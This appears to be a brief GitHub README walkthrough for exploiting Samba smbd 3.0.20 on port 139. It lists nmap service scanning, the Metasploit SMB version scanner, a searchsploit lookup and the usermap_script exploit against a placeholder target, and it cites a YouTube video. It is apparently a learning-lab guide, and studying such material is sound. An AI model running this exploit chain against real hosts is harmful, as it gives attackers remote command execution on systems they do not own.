 # Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-
1.nmap -sV (target ip)

2.msfconsole

3.msf 6 > search smb

![image](https://github.com/thanawut2903/Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/79c6ea7a-ea95-4168-9358-6f0ca9b97695)
4.msf 6 > use auiliary/scanner/smb/smb_version

5.msf 6 > set RHOST (target ip)
![image](https://github.com/thanawut2903/Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/95f78644-5107-4447-908b-13660f86b603)
6.msf 6 > run
![image](https://github.com/thanawut2903/Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/80560e75-ed9d-4bd2-8bd4-877537ad5191)
7.searchsploit Samba | grep 3.0.20
![image](https://github.com/thanawut2903/Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/b21e9a6d-adc4-4443-8fde-3d83725c9198)
8.msf 6 > use exploit/multi/samba/usermap_script
![image](https://github.com/thanawut2903/Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/b82b5022-5880-4bf1-a75d-621ca16760dd)
9.msf 6 > set RHOST (target ip)
10.msf 6 > exploit
![image](https://github.com/thanawut2903/Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/8fcb8276-efda-4b13-b718-3927c305f34a)

Referance form : https://www.youtube.com/watch?v=Eqsilc8HoPI
